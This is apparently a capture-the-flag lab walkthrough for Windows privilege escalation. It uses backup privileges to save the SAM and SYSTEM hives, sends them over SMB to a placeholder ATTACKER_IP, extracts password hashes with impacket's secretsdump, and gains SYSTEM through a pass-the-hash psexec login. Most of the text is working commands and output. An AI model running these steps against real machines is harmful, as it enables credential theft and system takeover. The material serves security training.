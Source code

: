 
Once on the command prompt, we can check our privileges with the following command:\
Command Prompt\
`C:\> whoami /priv`

`PRIVILEGES INFORMATION`\
`----------------------`

`Privilege Name Description State`\
`============================= ============================== ========`\
`SeBackupPrivilege Back up files and directories Disabled`\
`SeRestorePrivilege Restore files and directories Disabled`\
`SeShutdownPrivilege Shut down the system Disabled`\
`SeChangeNotifyPrivilege Bypass traverse checking Enabled`\
`SeIncreaseWorkingSetPrivilege Increase a process working set Disabled`

To backup the SAM and SYSTEM hashes, we can use the following commands:\
Command Prompt\
`C:\> reg save hklm\system C:\Users\THMBackup\system.hive`\
`The operation completed successfully.`

`C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive`\
`The operation completed successfully.`

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's `smbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox:\
Kali Linux\
`user@attackerpc$ mkdir share`\
`user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share`

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files to our AttackBox: \
Command Prompt\
`C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\`\
`C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\`\


And use impacket to retrieve the users' password hashes:\
Kali Linux\
`user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`\
`Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation`

`[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821`\
`[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)`\
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::`\
`Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:\
Kali Linux\
`user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP`\
`Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation`
